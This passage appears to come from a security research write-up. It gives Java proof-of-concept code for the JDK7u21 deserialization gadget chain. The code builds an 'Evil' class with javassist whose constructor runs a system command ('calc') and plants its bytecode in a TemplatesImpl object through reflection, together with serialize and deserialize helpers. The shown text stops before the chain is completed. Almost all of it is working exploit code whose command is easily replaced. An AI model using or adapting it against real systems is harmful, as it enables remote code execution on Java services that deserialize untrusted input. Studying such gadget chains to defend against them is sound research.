  - POC2

```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.*;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 pm
 */
public class Poc {
    //Serialization
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    //Deserialization
    public static Object unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }

    // Assign values ​​to obj's attributes through reflection
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    //Encapsulated the previous construction of the malicious TemplatesImpl class
    private static TemplatesImpl getEvilTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();//ClassPool object is a container representing the CtClass object of the class file
        CtClass cc = pool.makeClass("Evil");//Create Evil class
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));//Set the parent class of the Evil class to AbstractTranslet
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);//Create a parameterless constructor
        cons.setBody("{ Runtime.getRuntime().exec(\"calc\"); }");//Set the parameterless constructor body
        cc.addConstructor(cons);
        byte[] byteCode = cc.toBytecode();//toBytecode gets the bytecode of the Evil class
        byte[][] targetByteCode = new byte[][]{byteCode};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCode);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "xx");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
```